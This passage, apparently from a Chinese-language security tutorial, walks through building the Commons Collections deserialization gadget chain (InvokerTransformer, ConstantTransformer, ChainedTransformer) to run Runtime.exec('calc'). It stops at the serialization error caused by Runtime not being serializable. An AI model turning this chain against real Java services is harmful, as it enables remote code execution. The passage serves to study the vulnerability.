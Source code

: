 先看一下命令执行点，InvokerTransformer：

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }

public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
```

其 transform 方法接收了一个Object，并调用这个Object方法，方法名、方法所需要的参数类型，而这三个都是我们能控制的，所以可以通过这里执行命令，

```java
Runtime runtime = Runtime.getRuntime();
        Transformer invoketransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        invoketransformer.transform(runtime);
```

但是这里需要传入一个Runtime的实例进去，而再现实中，不会有这种反序列化之后再往 transform 方法中传入Runtime的实例，所以需要想一下其他办法，这里就需要用到 ConstantTransformer 类了，上面说到他的作⽤其实就是包装任意⼀个对象，在执⾏回调时返回这个对象，那么可以这样：

```java
Object constantTransformer = new ConstantTransformer(Runtime.getRuntime()).transform(123);
Transformer invoketransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
invoketransformer.transform(constantTransformer);
```

再加上 ChainedTransformer 类就是这样：

```java
ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
                  new ConstantTransformer(Runtime.getRuntime()),
                  new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})

          });
          chain.transform(123);
```

这样只需要 ChainedTransformer 反序列化后调用 transform 方法即可实现任意代码执行，我们只需要将其序列化即可：

![1](/img/294.png)

但是却发生了报错，因为这里的 Runtime.getRuntime() 返回的是一个 Runtime 的实例，但是 Runtime 并没有继承 Serializable ，所以会序列化失败，这里就需要用到反射机制了，
